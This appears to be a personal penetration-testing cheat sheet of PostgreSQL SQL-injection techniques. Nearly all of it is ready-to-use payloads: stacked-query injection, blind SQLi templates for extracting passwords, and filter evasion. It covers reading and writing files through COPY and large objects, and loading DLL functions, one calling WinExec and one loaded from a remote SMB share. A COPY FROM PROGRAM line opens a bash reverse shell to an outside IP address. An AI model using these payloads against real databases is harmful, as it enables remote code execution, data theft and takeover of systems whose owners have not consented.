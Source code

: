 ## PostgreSQL
> Note Stacked Queries may break application logic during SQLi;
> In PostgreSQL a semicolon can delimeter command and thus can execute totally new commands in SQLi

 ### Executing Queries against PostgreSQL DB
 #### Using pgAdmin GUI tool
To directly execute SQL Queries directly against the database, Use the `pgAdmin` tool. This is a front end for PostgreSQL
#### From Cmd
```batch
psql.exe -U postgres -p 15432
```

#### From Bash
```bash
sudo -i -u postgres
psql answers
```

### Execute System commands
```SQL
DROP TABLE IF EXISTS output;

create table output (line text);

copy output from program 'bash -c "bash -i >& /dev/tcp/192.168.119.125/9001 0>&1"';
```

### Examine Table
```sql
\d pg_largeobject
```

### Confirm SQLi Injection
```sql
;select pg_sleep(10);
```

### Blind SQLi 
```sql
# Boolean statment, where %s is ur nested query
2 LIMIT (CASE WHEN (%s) THEN 1 ELSE 2 END)

# Where first %d is charchter index in string and second %d is guess value
ASCII(SUBSTR((SELECT password FROM users WHERE user_id=1),%d,1))<%d
ASCII(SUBSTR((SELECT password FROM users WHERE user_id=1),%d,1))>%d
```

### Filter Evasion
#### base64
```sql
# From base64
select convert_from(decode('QVdBRQ==', 'base64'), 'utf-8');
```

#### Charchter Code point
```sql
# Charchter Code point
# Character concatenation only works for basic queries such as SELECT,  INSERT, DELETE, etc. It does not work for all SQL statements.
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);

CREATE TABLE EXAMPLETABLE (sometext text); INSERT INTO EXAMPLETABLE(sometext) VALUES (CHR(87)||CHR(66)||CHR(97)||CHR(86));
SELECT * from EXAMPLETABLE;
```

#### Avoiding Quotes
Essentially, two dollar characters (`$$`) can be used as a quote (`'`) substitute by themselves, or a single one (`$`) can indicate the beginning of a “tag.” The tag is optional, can contain zero or more characters, and is terminated with a matching dollar (`$`). If used, this tag is then required at the end of the string as well.

```sql
SELECT 'SomeText';
SELECT $$SomeText$$;
SELECT $TAG$SomeText$TAG$;
```

### Write & Read file to/from Disk
```sql
CREATE TEMP TABLE PayloadTable(payload text);INSERT INTO PayloadTable(payload) VALUES ($$WowThisWorks$$);

COPY PayloadTable(payload) TO $$C:\Users\Public\Desktop\thisworks.txt$$

# Writing to file using tables
COPY <table_name> from <file_name>

# Writing to file using nested select query
COPY (select $$payloaddata$$) to <file_name>

# Reading from file 
COPY <table_name> to <file_name>

# Read from file, Full example
CREATE temp table readdatatable (content text);COPY readdatatable from $$C:\Users\Public\Desktop\thisworks.txt$$;SELECT content from readdatatable;DROP table readdatatable;

# Blind Injection, Read from file
CREATE temp table readdatatable (content text);COPY readdatatable from $$C:\Users\Public\Desktop\thisworks.txt$$;select case when(ascii(substr((select content from readdatatable),1,1))=87) then pg_sleep(10) end;--;DROP table readdatatable;
```

### Check If running as DBA
```sql
SELECT current_setting('is_superuser');
```
![Pasted image 20210908125508.png](Screenshots/Pasted%20image%2020210908125508.png)

### Extensions
#### Load PostgreSQL Extension
```sql
create or replace function system(cstring) returns int as 'c:\windows\system32\kernel32.dll','WinExec' language c strict;
 
create or replace function test(text, integer) returns void as $$c:\\test.dll$$,$$test$$ LANGUAGE C STRICT; 

# supports the use of remote smb shares
create or replace function test(text, integer) returns void as $$\\192.168.1.1\smb\test.dll$$,$$test$$ LANGUAGE C STRICT; 
```

Need to make sure the appropriate Postgres structure is defined. Otherwise, this error will show up
![Pasted image 20210908171828.png](Screenshots/Pasted%20image%2020210908171828.png)

#### Check if function exists
```sql
\df test
```

#### Run function from Extension
```sql
create or replace function test(text, integer) returns void as $$c:\\test.dll$$,$$myfunctioninDLL$$ LANGUAGE C STRICT;
```

> Note that any newly launched calc.exe instance will be running as a service in the background and won't show it's gui if the postgresql is running as `System`

#### Unload extension
```batch
# 1. Stop the Service
net stop "Applications Manager"

# 2. Delete the DLL
del c:\test.dll

# 3. Start the service
net start "Applications Manager"
```

```sql
# 4. Drop the function
DROP FUNCTION test(text, integer);
```

### Postgresql Large Object
Large objects can be exported back to the file system as an identical copy of the original imported file. 

#### Create Large Object
```sql
select lo_import('c:\\windows\win.ini')

# Set loid field when importing
select lo_import('C:\\Windows\\win.ini', 1337);
```

#### List Large Objects
```sql
\lo_list

select loid, pageno from pg_largeobject;
```

#### View Data in Large Object
```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```

#### Update Large Object - Write to large object directly
```sql
update pg_largeobject set data=decode('77303074', 'hex') where loid=1337 and pageno=0; 
```

#### Export large object to disk
```sql
select lo_export(1337, 'C:\\new_win.ini');
```

#### Delete large object
```sql
\lo_unlink 1337
```


### References
[Command Execution in psql 9.3 < Latest ](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)